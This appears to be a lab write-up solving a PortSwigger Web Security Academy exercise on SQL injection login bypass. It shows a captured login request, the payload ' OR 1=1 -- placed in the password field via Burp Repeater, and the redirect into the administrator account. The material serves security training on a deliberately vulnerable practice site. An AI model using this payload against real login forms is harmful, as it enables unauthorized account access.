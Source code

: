 # Lab: SQL injection vulnerability allowing login bypass
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

# Solution
![](./img/Lab_2_Login_form.png)


```http
POST /login HTTP/2
Host: 0acb006504451e82800b4428004e0095.web-security-academy.net
Cookie: session=pd1km0kpZqjF2VgaL4xYUrNz4EJ1u1cc
Content-Length: 73
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://0acb006504451e82800b4428004e0095.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acb006504451e82800b4428004e0095.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=ObyiBy911daD8b6Emt99Fx6ymdlXHxm0&username=administrator&password=asd
```

Capturing the request and sending it to the Repeater in Burpsuite to edit the password parameter.


```http
csrf=ObyiBy911daD8b6Emt99Fx6ymdlXHxm0&username=administrator&password='+OR+1%3d1+--
```

Adding: ```' OR 1=1 --```


```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=5djH9OzY3BaHacdaVLiOBYBJBg32wSO9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](./img/Lab_2_Solved.png)